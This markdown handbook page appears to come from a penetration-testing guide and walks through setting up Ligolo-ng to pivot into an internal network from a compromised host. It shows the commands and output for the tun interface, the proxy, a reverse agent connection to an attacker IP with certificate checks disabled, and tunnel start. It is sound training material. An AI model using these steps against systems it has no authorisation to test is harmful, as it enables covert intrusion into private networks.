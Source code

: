 ```yaml
---
title: "[Bonus] - Ligolo-ng"
type: handbook
weight: 7
---
```


`Ligolo-Ng` is a lightweight and efficient tool designed to enable penetration testers to establish tunnels through reverse TCP/TLS connections, employing a tun interface. Noteworthy features include its GO-coded nature, VPN-like behavior, customizable proxy, and agents in GO. The tool supports multiple protocols, including ICMP, UDP, SYN stealth scans, OS detection, and DNS Resolution, offering connection speeds of up to 100 Mbits/sec. Ligolo-Ng minimizes maintenance time by avoiding tool residue on disk or in memory.

### Installation

Refer [Ligolo-ng](https://github.com/Nicocha30/ligolo-ng) for complete installation.

### Setting up Ligolo-ng

Install ligolo proxy and ligolo agent from the above resource.

```bash
tar -xvf ligolo-ng-proxy.tar.gz ligolo-ng-agent.tar.gz
```

Before moving forward, you need to create a separate tun interface for ligolo.

```bash {filename="Note"}
Creating tun interface is required every single time we want to use ligolo-ng
```

```bash
sudo ip tuntap add user [your_username] mode tun ligolo
sudo ip link set ligolo up
ip addr show ligolo
```

Run ligolo-ng proxy on the attacker machine:

```bash
sudo ./proxy -selfcert
```

```bash
sudo ./proxy -selfcert
INFO[0000] Loading configuration file ligolo-ng.yaml    
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
INFO[0000] Listening on 0.0.0.0:11601                   
INFO[0000] Starting Ligolo-ng Web, API URL is set to: http://127.0.0.1:8080 
WARN[0000] Ligolo-ng API is experimental, and should be running behind a reverse-proxy if publicly exposed. 
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ / 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /  
        /____/                          /____/   

  Made in France ♥            by @Nicocha30!
  Version: 0.8.2
```

Run ligolo-ng agent on the pivoting or compromised host:

```bash
./agent -connect <attacker-ip>:<port-from-proxy> --ignore-cert
```

```bash
ubuntu@WEB01:~$ ./agent -connect 10.10.16.42:11601 -ignore-cert
WARN[0000] warning, certificate validation disabled     
INFO[0000] Connection established                        addr="10.10.16.42:11601"
```

Once the proxy and agent is running, we need to start session on proxy by following command:

```bash
ligolo-ng >> session
```

```bash
ligolo-ng » INFO[0096] Agent joined.                                 id=005056b08bf9 name=ubuntu@WEB01 remote="10.129.71.91:60908"
ligolo-ng » 
ligolo-ng » session
? Specify a session : 1 - ubuntu@WEB01 - 10.129.71.91:60908 - 005056b08bf9
[Agent : ubuntu@WEB01] » 
```

You can confirm the connection with the jump host or pivoting host by typing `ifconfig` to see the internal network:

```bash
ligolo-ng >> ifconfig
```

```bash
[Agent : ubuntu@WEB01] » ifconfig
┌────────────────────────────────────┐
│ Interface 0                        │
├──────────────┬─────────────────────┤
│ Name         │ lo                  │
│ Hardware MAC │                     │
│ MTU          │ 65536               │
│ Flags        │ up|loopback|running │
│ IPv4 Address │ 127.0.0.1/8         │
│ IPv6 Address │ ::1/128             │
└──────────────┴─────────────────────┘
┌─────────────────────────────────────────────────┐
│ Interface 1                                     │
├──────────────┬──────────────────────────────────┤
│ Name         │ ens192                           │
│ Hardware MAC │ 00:50:56:b0:8b:f9                │
│ MTU          │ 1500                             │
│ Flags        │ up|broadcast|multicast|running   │
│ IPv4 Address │ 10.129.71.91/16                  │
│ IPv6 Address │ dead:beef::250:56ff:feb0:8bf9/64 │
│ IPv6 Address │ fe80::250:56ff:feb0:8bf9/64      │
└──────────────┴──────────────────────────────────┘
┌───────────────────────────────────────────────┐
│ Interface 2                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ ens224                         │
│ Hardware MAC │ 00:50:56:b0:79:52              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 172.16.5.129/23                │
│ IPv6 Address │ fe80::250:56ff:feb0:7952/64    │
└──────────────┴────────────────────────────────┘
[Agent : ubuntu@WEB01] »  
```

To use various tools on internal network, you need to start the tunneling to the pivot host on ligolo-ng proxy.

```bash
[Agent : ubuntu@WEB01] » tunnel_start --tun ligolo
INFO[0718] Starting tunnel to ubuntu@WEB01 (005056b00275) 
```